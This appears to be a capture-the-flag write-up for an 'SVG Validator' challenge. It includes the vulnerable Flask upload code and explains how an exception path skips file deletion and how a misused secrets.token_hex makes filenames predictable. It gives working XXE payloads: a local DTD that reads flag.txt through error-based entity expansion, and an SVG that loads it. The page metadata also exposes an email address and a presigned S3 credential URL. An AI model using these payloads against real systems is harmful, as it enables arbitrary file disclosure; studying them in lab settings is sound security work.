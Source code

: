 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466RAUSF7CL%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T100002Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDIaCXVzLXdlc3QtMiJIMEYCIQDHEzMvEkztyepX6HRtqwEcmDTeWNrARgni0dW3M6UWqQIhAMD%2BtIqVbnwehiNLoHHk2HgC0jKlhzymzavTmWX%2Fklk1KogECOv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgyrzqIyEs7%2Bc1J8Vd0q3APN%2BIdlEusH%2FGadnory69BoOdcHF6RTRM%2FLy2ku95Tn%2BGz%2F85XBcGgvAQoOLNZ2O1%2BlM%2F8MDhjcX6CEOihVIA6FOn47ZNTeFe8zAccZNLdH1x3q7uSxMb7hyS4aOjlgBjXE%2BWyEGU7nKpu0RCDRLo%2FoorDoWMp4V4EnVhcdj2FwCfX7hK20gkURHyVx8C%2F4nSRAMftsoFsehEpqi%2FTsc11DANId6XyxO%2BYu6aeST7oGVKBdjwo1xtanblgwQ%2FyeAcggdYi10cAGS2n1S%2FUkkXcBNTIBg4TSLID4E6P%2BneIxX12a7xd6EQ96F06GZRoSkAWrgE2Lt4%2FybH8B1DRJvFF30rV2B8kSNZZQW5aDOjg4MVS12iaZKzkBe%2F9TEn%2F%2FOPuezmcuCdvRaj91AiCefJ2YS4lk5xNnIyE0duUPgA5KPiA%2B2vkI3GlKzcoTHDOgkMknIYIgrmpV%2Fl3s7rU6LHxA3U1H%2Bf0bpl5IkgnW2AhuNmyUk8zf1te04hd4YP4JV4TCRiYX3n%2BIsWDJD1A7HNxNBbfDnAzn75VlIvhqon0SblR3y06oBaZXBbrCRETnE51kKv6g6y0lqHlmSyQisDg%2F54FOOdTnS3rlLMChLVSTtm2jqWzaQvCtAwB49DDni8HBBjqkAX%2BnpYgWnplS%2F%2B98vY0qGzc9yF7dOaQvAB1dFBaxyGj7ZMAemh9c4dZYLnFwiiE6m4gfXyA4pOhiTt%2FUX2BK6Ci0xUshBGfXfQyewtPD7L0wyEhmk1PvJZfoCZcG67%2FiP5Ixtil7tNFXchkfQxPOcf2wtdWu%2BxzHLGl7dixK5f77ZRVvknM%2Fhreim8DGX5y7cBzKumKe2JIw22FjD7eRmoXh0%2Bmg\&X-Amz-Signature=735386a5f9d06097f4d133eba82664afb9dee8952968cf65641abf845c53539d\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
